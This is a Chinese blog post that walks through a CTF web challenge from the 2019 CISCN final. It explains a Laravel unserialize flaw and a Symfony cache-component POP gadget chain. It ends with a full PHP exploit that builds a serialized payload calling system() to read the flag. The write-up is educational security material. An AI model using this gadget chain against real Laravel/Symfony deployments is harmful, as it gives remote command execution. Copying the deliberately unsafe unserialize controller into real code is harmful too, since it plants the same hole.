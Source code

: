 ```yaml
---
layout: post
title: "国赛决赛laravel1题解"
tags: [blog]
author: msyb
---
```


今年国赛决赛的一道web，当时是非预期解做出来的...  
因为主办方把出题人发的整个压缩文件给了出来，结果里面出题时laravel的存在storage/framework/sessions的session还没删，里面有payload拿来改下命令就得到flag了，居然还拿了三血. 感觉很对不起师傅们，我是因为当时没学过laravel一开始连IndexController都找不到，然后瞎点点到那个session文件的.

本题环境: [https://github.com/glzjin/CISCN_2019_Final_9_Day1_Web4](https://github.com/glzjin/CISCN_2019_Final_9_Day1_Web4)

然后现在正常的做一下.

首先是首页`app\Http\Controllers\IndexController`的代码.

```php
<?php
namespace App\Http\Controllers;
class IndexController extends Controller
{
    public function index(\Illuminate\Http\Request $request){
        $payload=$request->input("payload");
        if(empty($payload)){
            highlight_file(__FILE__);
        }else{
            @unserialize($payload);
        }
    }
}
```

可以看到是直接unserialize了我们发送的payload，所以存在反序列化漏洞，关键问题是要找到POP链.

```text
面向属性编程（Property-Oriented Programing）常用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链做一些工作了。
```

根据北邮的师傅的说法，根据[github](https://github.com/laravel/laravel/)上laravel的composer配置可以知道这个题指定了symfony的版本，所以pop链应该在这里.

那么按照反序列化漏洞的套路，首先找能利用的魔术方法.

通过搜索__destruct，很快发现有个`Symfony\Component\Cache\Adapter\TagAwareAdapter`

关键代码如下:

```php
class TagAwareAdapter
{
......
    private $deferred = [];
    public function __construct(AdapterInterface $itemsPool......)
    {
        $this->pool = $itemsPool;
        下略......
    }
public function invalidateTags(array $tags)
    {
        $ok = true;
        $tagsByKey = [];
        $invalidatedTags = [];
        foreach ($tags as $tag) {
            CacheItem::validateKey($tag);
            $invalidatedTags[$tag] = 0;
        }
        if ($this->deferred) {
            $items = $this->deferred;
            foreach ($items as $key => $item) {
                if (!$this->pool->saveDeferred($item)) {
                    unset($this->deferred[$key]);
                    $ok = false;
                }
            }
......下略
public function commit()
{
    return $this->invalidateTags([]);
}
public function __destruct()
{
    $this->commit();
}
......下略
```

执行__destruct时调用了commit，然后commit调用了invalidateTags

```php
if ($this->deferred) {
    $items = $this->deferred;
    foreach ($items as $key => $item) {
        if (!$this->pool->saveDeferred($item)) {
            下略......
        }
    }
}
```

根据上面invalidateTags里的这几行代码，我们可以看出利用反序列化控制TagAwareAdapter的私有变量pool后可以执行任意类的saveDeferred方法.

然后又搜索saveDeferred，可以找到`Symfony\Component\Cache\Adapter\ProxyAdapter`

关键代码如下:

```php
class ProxyAdapter
{
    private $setInnerItem;
    private $poolHash;
    ......
    public function saveDeferred(CacheItemInterface $item)
    {
        return $this->doSave($item, __FUNCTION__);
    }
    ......
    private function doSave(CacheItemInterface $item, $method)
    {
        if (!$item instanceof CacheItem) {
            return false;
        }
        $item = (array) $item;
        ......
        if ($item["\0*\0poolHash"] === $this->poolHash && $item["\0*\0innerItem"]) {
            $innerItem = $item["\0*\0innerItem"];
        } elseif (......) {
            ......
        } else {
            ......
        }

        ($this->setInnerItem)($innerItem, $item);
        ......
    }
}
```

可以看到最后会动态执行一个有两个参数的函数:
`($this->setInnerItem)($innerItem, $item);`

而且在这里setInnerItem即函数名同样可控(参见最后的exp).  
对于$item这里要求必须是CacheItem的实例.  

关键代码

```php
class CacheItem
{
    protected $innerItem;
    protected $poolHash;
    ......下略
}
```

又根据doSave函数的代码，我们让CacheItem实例的poolHash与ProxyAdapter实例的poolHash相等.

```php
$item = (array) $item; //注意转换为数组
if ($item["\0*\0poolHash"] === $this->poolHash && $item["\0*\0innerItem"]) {
            $innerItem = $item["\0*\0innerItem"];
......
```

就可以控制`($this->setInnerItem)($innerItem, $item);`中的$innerItem了.

综上我们可以任意执行一个有两个参数且第二个参数可以是数组的函数.

根据文档可以确定system函数可用，它会把执行命令后返回值存入第二个参数，完全没有影响，这样就搞定了.

下面是构造的exploit

```php
<?php
namespace Symfony\Component\Cache
{
    class CacheItem
    {
        protected $innerItem="cat /flag"; //执行的命令，system有回显
        protected $poolHash=1;
    }
}
namespace Symfony\Component\Cache\Adapter
{
    use Symfony\Component\Cache\CacheItem;
    class ProxyAdapter
    {
        private $setInnerItem="system";
        private $poolHash=1;
    }
    class TagAwareAdapter
    {
        private $deferred = [];
        private $pool;
        public function __construct(ProxyAdapter $itemsPool, CacheItem $item)
        {
            $this->pool = $itemsPool;
            $this->deferred[0] = $item;
        }
    }
}
namespace {
    use Symfony\Component\Cache\CacheItem;
    use Symfony\Component\Cache\Adapter\ProxyAdapter;
    use Symfony\Component\Cache\Adapter\TagAwareAdapter;
    $a = new CacheItem();
    $b = new ProxyAdapter();
    $c = new TagAwareAdapter($b, $a);
    echo urlencode(serialize($c));
}
```
